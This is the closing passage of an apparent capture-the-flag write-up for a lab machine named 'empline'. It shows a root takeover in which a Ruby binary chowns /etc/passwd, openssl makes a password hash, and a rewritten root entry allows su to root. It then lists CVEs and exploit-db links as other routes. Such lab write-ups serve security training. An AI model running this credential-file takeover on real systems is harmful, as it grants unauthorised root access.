george@empline:~$ /usr/local/bin/ruby -e 'File.chown(1002,1002,"/etc/passwd")'
george@empline:~$ ls /etc/passwd
/etc/passwd
george@empline:~$ ls -lah /etc/passwd
-rw-r--r-- 1 george george 1.7K Jul 20 19:48 /etc/passwd
````

So, user `george` is owning the `/etc/passwd` file. Great!!

So let's generate a new password hash so that we can add this to the `/etc/passwd` for the root user. As we don't know the password of `root`, we will give him a new one the fancy way.

````commandline
george@empline:/$ openssl passwd mynewpass
Warning: truncating password to 8 characters
bUlQOIGbhxiis
````

Editing the `/etc/passwd` and adding this new password hash.

````commandline
root:bUlQOIGbhxiis:0:0:root:/root:/bin/bash
````

This seemed to work out as expected.

````commandline
george@empline:~$ su root
Password: 
root@empline:/home/george# cat /root/root.txt 
74*****d0556e9c6f22e6f54b*****d5
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)

## Other methods

There are other possible methods as there are some know CVE interesting to check out. I did not try them out as I could find my way to have full root access, including the `MySQL` database along the way.

- [CVE-2021-25295](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25295)
- [CVE-2021-25294 ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25294)
- [CVE-2019-13358](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-13358) - See also this practical example: [XML External Entity Injection (XXE) in OpenCats Applicant Tracking System](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)

## Maybe yet other methods

- [CVE-2019-0211](https://www.exploit-db.com/exploits/46676) - As this is about `Apache` version `2.4.29` this exploit can maybe also work out to gain root privilege: <https://www.exploit-db.com/exploits/46676>
